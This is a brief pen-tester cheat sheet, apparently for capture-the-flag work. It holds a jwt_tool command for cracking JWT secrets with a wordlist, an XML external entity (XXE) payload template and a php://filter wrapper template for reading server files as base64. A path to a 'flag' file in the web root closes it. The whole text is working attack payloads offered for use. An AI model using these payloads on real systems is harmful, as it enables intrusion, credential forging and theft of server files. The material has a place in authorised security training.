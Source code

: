 # pen-tester handbook
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST


<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "command">
]>
<foo> &xxe; </foo>



# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag
